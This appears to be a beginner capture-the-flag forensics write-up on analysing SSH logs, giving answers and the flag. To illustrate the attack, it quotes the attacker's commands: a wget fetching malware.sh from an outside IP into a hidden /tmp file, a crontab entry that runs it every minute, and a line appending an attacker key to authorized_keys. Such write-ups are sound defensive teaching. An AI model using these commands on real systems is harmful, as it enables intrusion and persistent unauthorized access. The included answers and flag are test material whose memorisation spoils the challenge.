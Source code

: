 ## Challenge Description

This beginner-level forensic challenge focuses on analyzing SSH logs to uncover attacker behavior. Participants are required to identify unauthorized access, malware persistence mechanisms, and retrieve the final flag by answering key questions derived from SSH activity.

---

## Questions & Answers

### How many different IPs attempted to connect to the SSH server?

**Answer:** 4

- `194.87.112.101`
- `185.243.112.44`
- `92.134.56.10`
- `192.168.1.15`

---

### Which user account was successfully compromised?

**Answer:** support

> Successful login recorded:
> 
> 
> `Accepted password for support from 185.243.112.44 port 49876 ssh2`
> 

---

### What port was used in the attacker's first successful login?

**Answer:** 49876

> Seen in log entry:
> 
> 
> `Accepted password for support from 185.243.112.44 port 49876 ssh2`
> 

---

### What command was used to download a file from the attacker's server?

**Answer:** `wget <http://185.243.112.44/malware.sh> -O /tmp/.systemd`

---

### What file did the attacker try to hide by adding it to the crontab?

**Answer:** `/tmp/.systemd`

> Crontab entry seen:
> 
> 
> `echo "* * * * * /tmp/.systemd" | crontab -`
> 

---

### What command did the attacker use to maintain persistence on the system?

**Answer:**

```bash
echo 'ssh-rsa AAAAC3NzaC1lZDI1NTE5AAAAIDZ3X9q3X5f8y5gZ3X9q3X5f8y5gZ3X9q3X5f8y5gZ3X user@attack' >> ~/.ssh/authorized_keys

```

---

### What user executed a legitimate git pull command?

**Answer:** jdoe

> Normal user activity:
> 
> 
> `git pull origin production`
> 
> Seen after public key login from internal IP `192.168.1.15`
> 

---

## Skills Learned

- 🧠 **Log Analysis**: Practiced parsing SSH logs to trace unauthorized access and user commands.
- 📌 **Threat Hunting**: Identified indicators of compromise like suspicious IPs, unauthorized file downloads, and persistence tactics.
- 🛠️ **Persistence Mechanisms**: Learned how attackers use `crontab` and `authorized_keys` to maintain access.
- 🧩 **Attribution**: Distinguished legitimate vs. malicious user actions based on command context and login sources.

---

## Flag
Spark{G00d_j0b_Re4ding_l0gs}
